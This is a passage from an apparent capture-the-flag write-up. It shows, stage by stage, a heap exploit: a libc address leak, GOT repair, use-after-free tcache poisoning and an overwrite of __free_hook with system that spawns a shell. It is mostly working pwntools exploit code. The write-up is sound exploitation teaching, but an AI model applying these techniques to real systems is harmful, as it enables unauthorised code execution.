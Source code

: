 Because this is read so we will not have null byte at the end of our input. We just send 8 byte to concate our input with address of stdout and when it execute `atoll`, it will print our input and the address out:

```python
p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'Index:', b'12344321')
p.recvuntil(b'12344321')
stdout_addr = u64(p.recvline()[:-1] + b'\x00'*2)
libc.address = stdout_addr - 0x1e5760
log.info("Libc base: " + hex(libc.address))
```

With the base address of libc, we know every address of each function in libc. Let's set everything back as it was and also, set null for 2 addresses of `heap`:

```python
p.sendlineafter(b'choice: ', b'2')
p.sendlineafter(b'Index:', b'\x00')
p.sendlineafter(b'Size:', b'123443212344321')
p.sendafter(b'Data:', flat(exe.plt['atoll'] + 6))

payload = flat(
	exe.plt['atoll'] + 6,
	0, exe.plt['realloc'] + 6,
	exe.plt['setvbuf'] + 6, exe.plt['__isoc99_scanf'] + 6,
	0, 0,
	libc.address + 0x1e5760, 0,    # stdout
	libc.address + 0x1e4a00, 0,    # stdin
	libc.address + 0x1e5680, 0,    # stderr
	0, 0,
	)
realloc(1, 0x78, payload)
```

You know, this is the reason why I free chunk at index 0 first and use chunk at index 1 to attack **Use After Free**. Because we want to set everything back when we have libc and `puts()` will return the number of byte printed so the minimum bytes `puts()` print is 1, which is byte `\n`. That's why we sent null byte at inputing index so we can choose to interact with chunk at index 1, which is address of `atoll@got`.

### Stage 3: Overwrite `__free_hook` with system

Now with everything back, the program will work as normal. Let's use the same trick in stage 1 to overwrite `__free_hook` with `system` and free a chunk with string `/bin/sh` to get shell:

```python
alloc(0, 0x78, b'0'*8)
alloc(1, 0x78, b'1'*8)
free(1)

# Use after free, overwrite forward pointer
realloc(0, 0)
realloc(0, 0x78, p64(libc.sym['__free_hook']) + p64(0))

# Get freed chunk out and shrink
alloc(1, 0x78, b'/bin/sh\x00')
realloc(0, 0x18, b'/bin/sh\x00')
free(0)

# Overwrite __free_hook
alloc(0, 0x78, p64(libc.sym['system']))

# Get shell
realloc(1, 0x18, b'/bin/sh\x00')
free(1)
```
